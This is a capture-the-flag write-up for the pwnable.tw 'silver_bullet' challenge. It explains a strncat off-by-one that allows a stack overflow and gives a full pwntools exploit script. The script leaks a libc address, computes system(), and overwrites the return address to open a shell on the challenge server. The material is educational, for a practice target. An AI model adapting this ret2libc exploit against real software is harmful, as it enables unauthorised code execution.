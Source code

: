 # 📌 silver_bullet - pwnable.tw

## 🔹 Vulnerability Analysis
### 📌 **Vulnerable Function: `power_up`**
The vulnerability resides in the **`power_up` function**.

---

### 🛠️ **Breakdown of the Issue**
- The program allows creating **only one bullet** with a **maximum size of `0x30`** bytes.
- The **initial power** is determined by the length of the **first provided description**.
- When **powering up**, the new description is **concatenated** with the existing one.
- The problem arises from **`strncat`**, which expects a **destination buffer** of **size `n+1`**, since it writes `n` bytes and **appends a null terminator (`\x00`)**.
- If we concatenate **exactly `0x30` bytes**, the **31st (`0x31`) byte gets null-terminated**.
- The program then **updates the power level** based on the length of **only the new input**, instead of the full concatenated buffer.

---

### 💥 **Impact: Buffer Overflow**
This logic flaw **allows a buffer overflow**:
- **We can overwrite the return address**, which is **8 bytes past the power variable**.
- Since **the power variable is incorrectly updated**, we **can exceed `0x30` bytes** and write beyond the buffer.

---

### 🏴 **Exploitation Plan**
1. **Leak a libc address**  
   - Overwrite the return address to leak an address from the **libc**.
   - Redirect execution to the beat function, which prints data from memory.
   - Provide an address from a writable memory region (since in beat function param2 will get updated) as a param to beat function where a libc address exists (e.g., stdin stream).
2. **Calculate `system` address**  
   - Using the leaked libc address, compute the base address and derive `system()`.
3. **Overwrite return address with `system()`**  
   - Redirect execution to `system("/bin/sh")`, gaining a shell.


## 🔹 Exploit Code
```python
#!/usr/bin/python3.10
from pwn import *

# p = process("./silver_bullet_patched")  
p = remote("chall.pwnable.tw", 10103)  


elf = ELF("./libc_32.so.6")


def create_bullet(p, desc):
    p.sendlineafter("Your choice :", "1")
    p.sendafter("bullet :", desc)
    p.recvuntil("Your power is : ")
    return int(p.recvline().strip().decode())

def power_up(p, desc):
    p.sendlineafter("Your choice :", "2")
    p.sendafter("bullet :", desc)
    p.recvuntil("new power is : ")
    return int(p.recvline().strip().decode())

def beat(p):
    p.sendlineafter("Your choice :", "3")
    p.recvuntil("HP : ")
    p.recvline()


power = create_bullet(p, 'A' * 47)
print(f"Initial power: {power}")


power = power_up(p, 'B' * (48 - power))

# overwrite ret addr
payload = b"\xff\xff\xff"
payload += b"a" * 4  # Padding
payload += p32(0x8048733, "little")  # return to beat function so it can leak libc addr
payload += p32(0x08048954, "little") # saved return ptr to main
payload += p32(0x804afd4, "little")  # param1
payload += p32(0x804b01c, "little")  # param2

power = power_up(p, payload)

# Leak libc addr
beat(p)
p.recvuntil("+ NAME : ")
leak = p.recvline().strip()
libc_leak = int.from_bytes(leak[4:8], "little")

print(f"Leaked libc address: {hex(libc_leak)}")

# system() addr
libc_offset = 0x175ca7  # Offset from leak to system
system_addr = libc_leak - libc_offset
libc_base = system_addr - elf.symbols["system"]

print(f"system() address: {hex(system_addr)}")
print(f"Libc base: {hex(libc_base)}")

power = create_bullet(p, 'A' * 47)
power_up(p, 'B' * (48 - power))

payload = b"\xff\xff\xff"
payload += b"a" * 4  # Padding
payload += p32(system_addr, "little")
payload += p32(system_addr, "little")
payload += p32(libc_base + 0x158e8b, "little")  # "/bin/sh" address

power_up(p, payload)


beat(p)


p.interactive()
